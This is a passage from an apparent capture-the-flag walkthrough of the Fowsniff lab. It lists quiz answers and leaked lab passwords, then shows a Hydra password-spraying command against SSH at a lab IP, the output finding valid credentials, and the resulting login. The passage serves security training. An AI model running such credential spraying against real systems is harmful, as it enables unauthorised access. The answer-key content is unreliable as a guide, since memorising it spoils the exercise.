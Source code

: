 **Question : What was seina's password to the email service ?**  
**Answer : scoobydoo2**  

**Question : Looking through her emails, what was a temporary password set for her ?**  
**Answer : S1ck3nBluff+secureshell**  

## SSH username bruteforce

We have a default SSH password. Maybe someone made the same error as seina but for SSH this time... Let's use this password and find out if any user forgot to change 
it. We can use [Hydra](https://github.com/vanhauser-thc/thc-hydra) again for this. I just made a wordlist containing only usernames :  
```
attacker@AttackBox:~/Fowsniff_CTF$ cat credentials_ssh.txt 
mauer
mustikka
tegel
baksteen
seina
mursten
parede
sciana
stone
attacker@AttackBox:~/Fowsniff_CTF$ hydra -L credentials_ssh.txt -p 'S1ck3nBluff+secureshell' 10.10.255.254 ssh
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-01-13 19:55:13
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 9 tasks per 1 server, overall 9 tasks, 9 login tries (l:9/p:1), ~1 try per task
[DATA] attacking ssh://10.10.255.254:22/
[22][ssh] host: 10.10.255.254   login: baksteen   password: S1ck3nBluff+secureshell
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-01-13 19:55:16
```

Now, we have a set of ssh credentials. Let's use it to login on ssh :  
```
attacker@AttackBox:~/Fowsniff_CTF$ ssh baksteen@10.10.255.254
The authenticity of host '10.10.255.254 (10.10.255.254)' can't be established.
ECDSA key fingerprint is SHA256:5i4lzzyTeroRL7skmPatRi24vG1+59KMgqHGLyxre9Y.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.255.254' (ECDSA) to the list of known hosts.
baksteen@10.10.255.254's password: 

                            _____                       _  __  __  
      :sdddddddddddddddy+  |  ___|____      _____ _ __ (_)/ _|/ _|  
   :yNMMMMMMMMMMMMMNmhsso  | |_ / _ \ \ /\ / / __| '_ \| | |_| |_   
.sdmmmmmNmmmmmmmNdyssssso  |  _| (_) \ V  V /\__ \ | | | |  _|  _|  
-:      y.      dssssssso  |_|  \___/ \_/\_/ |___/_| |_|_|_| |_|   
-:      y.      dssssssso                ____                      
-:      y.      dssssssso               / ___|___  _ __ _ __        
-:      y.      dssssssso              | |   / _ \| '__| '_ \     
-:      o.      dssssssso              | |__| (_) | |  | |_) |  _  
-:      o.      yssssssso               \____\___/|_|  | .__/  (_) 
-:    .+mdddddddmyyyyyhy:                              |_|        
-: -odMMMMMMMMMMmhhdy/.    
.ohdddddddddddddho:                  Delivering Solutions


   ****  Welcome to the Fowsniff Corporate Server! **** 

```